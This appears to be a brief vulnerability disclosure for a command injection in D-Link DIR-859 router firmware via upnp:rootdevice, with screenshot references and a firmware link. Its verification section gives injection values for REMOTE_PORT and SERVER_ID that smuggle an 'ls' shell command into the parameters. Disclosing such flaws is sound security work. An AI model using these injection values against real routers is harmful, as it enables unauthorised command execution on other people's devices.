



# D-LINK DIR-859 A1 1.05 and A1 1.06B01 Beta01 upnp:rootdevice command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-859 

## Debugging verification
set REMOTE_PORT parameter as REMOTE_PORT="8888;ls;" 
 
set SERVER_ID parameter as SERVER_ID="1;ls" 
 
